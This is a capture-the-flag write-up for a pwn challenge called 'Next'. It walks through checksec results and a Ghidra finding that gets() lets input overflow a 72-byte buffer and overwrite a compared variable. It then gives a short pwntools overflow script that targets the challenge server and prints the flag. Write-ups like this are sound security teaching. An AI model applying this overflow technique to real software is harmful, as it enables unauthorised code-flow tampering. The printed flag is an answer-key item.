



# 🧩 Next – Pwn Challenge Writeup

## 📌 Challenge Name : **Next**

---

## 📷 Section 1: Binary Security Check (Checksec)

 

### 🔒 Security Analysis (Checksec Output)

- **RELRO**: Partial – GOT is not fully protected, allowing GOT overwrite attacks.
- **Stack Canary**: ❌ Missing – No protection against stack buffer overflows.
- **NX**: ❌ Disabled – The stack is executable, making shellcode injection possible.
- **PIE**: ✅ Enabled – Code is loaded at random memory addresses.
- **Symbols**: ✅ Present – Not stripped, helpful for reverse engineering.

---

## 🧠 Section 2: Ghidra Static Analysis



### 🔍 Key Observations (from Ghidra)

- The program reads input using `gets()`, making it vulnerable to buffer overflows.
- A 72-byte buffer is followed by a 64-bit variable `local_10`.
- The value of `local_10` is compared to `0x3839736f7265` (ASCII: `"eros98"`).
- If matched, the function `flag()` is called.

---

## 🎯 Exploitation

Overflow the buffer and overwrite `local_10` with the desired value:

````
from pwn import *

payload = b"A" * 72 + p64(0x3839736f7265)

# Remote exploit
p = remote("airange.aucssociety.com", 47331)
p.sendlineafter("destination?", payload)
p.interactive()
````

---

## 🏁 Flag

```
flag{Y0U_4r3_G00D_4T_bU55s}
```

---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*